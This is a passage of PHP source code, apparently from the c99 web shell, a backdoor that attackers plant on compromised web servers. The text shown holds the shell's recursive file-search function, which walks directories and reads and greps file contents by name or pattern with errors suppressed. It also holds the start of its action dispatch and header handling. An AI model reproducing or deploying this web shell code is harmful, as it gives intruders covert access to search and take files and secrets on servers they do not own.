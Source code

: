      $result["limit"] = $arr[$k+1]; 
     $result["limit"] = explode(",",$result["limit"]); 
     if (count($result["limit"]) == 1) {$result["limit"] = array(0,$result["limit"][0]);} 
     unset($arr[$k],$arr[$k+1]); 
    } 
   } 
  } 
 } 
 else {return FALSE;} 
} 
} 
if (!function_exists("c99fsearch")) 
{ 
function c99fsearch($d) 
{ 
 global $found; 
 global $found_d; 
 global $found_f; 
 global $search_i_f; 
 global $search_i_d; 
 global $a; 
 if (substr($d,-1) != DIRECTORY_SEPARATOR) {$d .= DIRECTORY_SEPARATOR;} 
 $h = opendir($d); 
 while (($f = readdir($h)) !== FALSE) 
 { 
  if($f != "." && $f != "..") 
  { 
   $bool = (empty($a["name_regexp"]) and strpos($f,$a["name"]) !== FALSE) || ($a["name_regexp"] and ereg($a["name"],$f)); 
   if (is_dir($d.$f)) 
   { 
    $search_i_d++; 
    if (empty($a["text"]) and $bool) {$found[] = $d.$f; $found_d++;} 
    if (!is_link($d.$f)) {c99fsearch($d.$f);} 
   } 
   else 
   { 
    $search_i_f++; 
    if ($bool) 
    { 
     if (!empty($a["text"])) 
     { 
      $r = @file_get_contents($d.$f); 
      if ($a["text_wwo"]) {$a["text"] = " ".trim($a["text"])." ";} 
      if (!$a["text_cs"]) {$a["text"] = strtolower($a["text"]); $r = strtolower($r);} 
      if ($a["text_regexp"]) {$bool = ereg($a["text"],$r);} 
      else {$bool = strpos(" ".$r,$a["text"],1);} 
      if ($a["text_not"]) {$bool = !$bool;} 
      if ($bool) {$found[] = $d.$f; $found_f++;} 
     } 
     else {$found[] = $d.$f; $found_f++;} 
    } 
   } 
  } 
 } 
 closedir($h); 
} 
} 
if ($act == "gofile") {if (is_dir($f)) {$act = "ls"; $d = $f;} else {$act = "f"; $d = dirname($f); $f = basename($f);}} 
//Sending headers 
@ob_start(); 
@ob_implicit_flush(0); 
function onphpshutdown() 